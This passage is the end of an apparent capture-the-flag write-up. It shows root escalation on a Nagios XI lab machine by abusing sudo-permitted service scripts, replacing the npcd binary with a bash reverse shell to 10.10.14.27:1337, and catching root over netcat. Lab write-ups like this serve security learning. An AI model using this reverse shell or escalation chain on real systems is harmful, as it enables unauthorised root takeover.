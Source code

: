 ```bash
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

A quick bit of googling I found [this page](https://www.tenable.com/security/research/tra-2020-61) following the PoC 

- Stop the npcd service

```bash  
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
```

- Modified the npcd `vim /usr/local/nagios/bin/npcd` to add the reverse shell

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.14.27/1337 0>&1
```

- Made the `npcd` executable

```bash
chmod +x /usr/local/nagios/bin/npcd
```

- I opened netcat listener and started the `npcd` service

```bash
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

### Root.txt

Finally, escalated to root and got the `root.txt` flag

```bash
$ nc -lvnp 1337
root@monitored:/# whoami
whoami
root
root@monitored:/# cat /root/root.txt
cat /root/root.txt
6e2412a*************************
root@monitored:/# 
```
